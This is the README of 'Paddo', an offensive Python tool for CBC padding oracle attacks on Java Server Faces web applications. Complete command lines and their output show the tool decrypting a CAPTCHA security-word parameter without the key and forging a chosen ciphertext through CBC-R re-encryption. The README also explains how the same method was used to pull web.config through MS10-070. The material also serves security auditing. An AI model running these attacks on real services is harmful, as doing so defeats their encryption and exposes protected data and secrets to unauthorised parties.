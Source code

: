 Paddo
=====

Audit and attack the underlying cryptography in encrypted blocks for decrypting them or re-encrypting any plaintext without knowing the secret key. An "oracle" is when a service or machine receives a ciphertext, decrypts it and then replies to the sender whether the padding is correct or not. At Eurocrypt 2002, Vaudenay introduced a powerful side-channel attack against CBC-mode encryption with PKCS#5. This framework currently attacks Java Server Faces vulnerable versions and allows to extend current methods for beeing used in customized web applications.

For example:

http://[EXAMPLE_WEBSITE]/bzJApp/Captcha.action?securityWord=OdXdV/96yBv1hA2cfGnmFFsPhYFi2xCO

Here the ciphertext is: OdXdV/96yBv1hA2cfGnmFFsPhYFi2xCO (Which is the real value of the "security word" but encrypted)

lucas@debian:~$ ./paddo.py -t http://[EXAMPLE_WEBSITE]/bzJApp/Captcha.action?securityWord=OdXdV/96yBv1hA2cfGnmFFsPhYFi2xCO -p securityWord
[+] Detecting a Padding Oracle in parameter: securityWord
[+] Encoding Detected: base64
[+] Blocksize Detected: 8 bytes
[!] Sending our first block nulled payload
[!] JSF vulnerable to a Padding Oracle attack
[+] Decrypting block #: 2
[+] Original Block: f5840d9c7c69e614
[+] IV: 39d5dd57ff7ac81b
[+] Padding !
[!] Invalid Padding: 0000000000000000
[...]
[!] Valid Padding: bbd452917164eb19 5b0f858162db108e
[!] Intermediate Block: b3dc5a99796ce311
[*] Block decrypted: 4658570505050505
[!] Plaintext: 05190,ZRFXW

We successfully decrypted our ciphertext !

Paddo attemps to decrypt valid ciphertext on a service which acts as an "oracle". Obviously this service must know the key of the ciphertext since is the one who will check for proper padding after decrypting it due to PKCS#5.

Also paddo supports re-encryption (CBC-R), that is encrypting a custom plaintext with the server key without really knowing it. 

For example encrypting a "LUCAS" with paddo:

lucas@debian:~$ ./paddo.py -t http://[EXAMPLE_WEBSITE]/bzJApp/Captcha.action?securityWord=OdXdV/96yBv1hA2cfGnmFFsPhYFi2xCO -p securityWord --encrypt 05555,LUCAS
[...]
[*] Encrypting: 05555,LUCAS
[...]
[!] Valid Padding: 65b4cdb2be1e37d8 2b5c874bd1c94191
[!] Intermediate Block: 6dbcc5bab6163fd0
[*] Block decrypted: 6dbcc5bab6163fd0
[!] Ciphertext: XYnwj4M6c4UrXIdL0clBkQAAAAAAAAAA

If the Cookie image is feed by the securityWord parameter, we will see the word LUCAS in the CAPTCHA.

http://[EXAMPLE_WEBSITE]/bzJApp/Captcha.action?securityWord=XYnwj4M6c4UrXIdL0clBkQAAAAAAAAAA

This is the core of http://technet.microsoft.com/en-us/security/bulletin/MS10-070.

Briefly, you can encrypt a "web.config" string with the server secret key, and then feed the WebResource.axd script for fetching the content of that file. Currently paddo only attacks Java Server Faces, but it may be extended to also support ASP.NET since the attack is very similar.
